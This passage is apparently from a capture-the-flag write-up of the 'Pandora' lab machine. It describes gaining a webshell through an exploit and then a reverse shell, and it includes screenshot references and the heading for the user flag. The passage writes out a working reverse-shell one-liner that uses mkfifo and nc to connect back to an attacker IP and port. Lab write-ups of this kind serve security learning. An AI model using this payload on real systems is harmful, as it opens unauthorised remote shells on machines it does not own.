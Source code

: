 ![exploit.png](/assets/img/Pandora/exploit.png)

Executing exploit with valid `PHPSESSID` granted me `webshell` on port 80. To get reverse shell I `URL` encoded this payload.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.34 7003 >/tmp/f
```

![exploit.png](/assets/img/Pandora/burpDecoder.png)

![exploitReverse.png](/assets/img/Pandora/exploitReverse.png)

![exploitReverse.png](/assets/img/Pandora/shellMatt.png)
#### User.txt
